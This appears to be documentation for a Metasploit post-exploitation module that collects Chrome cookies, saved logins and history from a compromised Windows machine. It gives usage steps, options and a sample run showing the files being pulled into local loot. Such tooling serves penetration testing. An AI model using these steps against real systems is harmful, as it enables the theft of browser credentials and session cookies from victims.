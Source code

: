 ## Module Description

This post-exploitation module gathers artifacts found on Chrome related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/chrome
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/chrome) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Chrome's parent folder found
[*] Chrome's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Cookies
[*] Chrome Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeCookies_228131.bin

[*] no such table: cookiess
[*] Chrome's parent folder found
[*] Chrome's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Login Data
[*] Chrome Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeLoginData_686416.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513135139_default_192.168.56.106_EXTRACTIONSLogin_188262.bin
[*] Chrome's parent folder found
[*] Chrome's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\History
[*] Chrome History downloaded
[+] File saved to:  /root/.msf4/loot/20210513135139_default_192.168.56.106_chromeHistory_527301.bin

[*] no such column: lower_term
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
